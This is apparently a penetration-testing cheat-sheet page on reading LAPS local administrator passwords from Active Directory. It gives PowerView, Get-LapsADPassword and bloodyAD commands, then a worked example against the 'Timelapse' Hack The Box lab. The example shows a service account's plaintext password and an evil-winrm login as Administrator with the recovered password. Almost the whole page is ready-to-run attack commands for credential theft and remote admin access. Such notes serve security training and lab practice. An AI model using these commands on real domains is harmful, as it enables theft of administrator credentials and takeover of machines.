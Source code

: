 # From Windows
Plaintext attributes can be read using a simple LDAP client. For example, with PowerView:
```powershell
Get-DomainComputer "MachineName" -Properties "cn","ms-mcs-admpwd","ms-mcs-admpwdexpirationtime"
```
Encrypted attributes can be decrypted using Microsoft's LAPS PowerShell module. For example:
```powershell
Get-LapsADPassword "WIN10" -AsPlainText
```

# Linux Abuse
Read the LAPS password attributes listed in the General section.
Plaintext attributes can be read using a simple LDAP client. For example, with bloodyAD:
```shell
sudo apt install bloodyad
bloodyAD --host $DC_IP -d $DOMAIN -u $USER -p $PASSWORD get search --filter '(ms-mcs-admpwdexpirationtime=*)' --attr ms-mcs-admpwd,ms-mcs-admpwdexpirationtime
```
Example:
```shell
bloodyAD --host Timelapse -d timelapse.htb -u svc_deploy -p 'E3R$Q62^12p7PLlC%KWaxuaV' get search --filter '(ms-mcs-admpwdexpirationtime=*)' --attr ms-mcs-admpwd,ms-mcs-admpwdexpirationtime
```
![image](https://github.com/user-attachments/assets/08b0b666-c164-4ece-ae96-f387b9b914b9)

```shell
evil-winrm -S -i Timelapse -u Administrator -p "6vf8f0T4a+2[@Mu1[6g66pHj"
```
**Note**:
The -S flag in evil-winrm is used to enable SSL (Secure Sockets Layer) for the connection. This flag is necessary when the target Windows machine's WinRM (Windows Remote Management) service is configured to use HTTPS instead of HTTP.
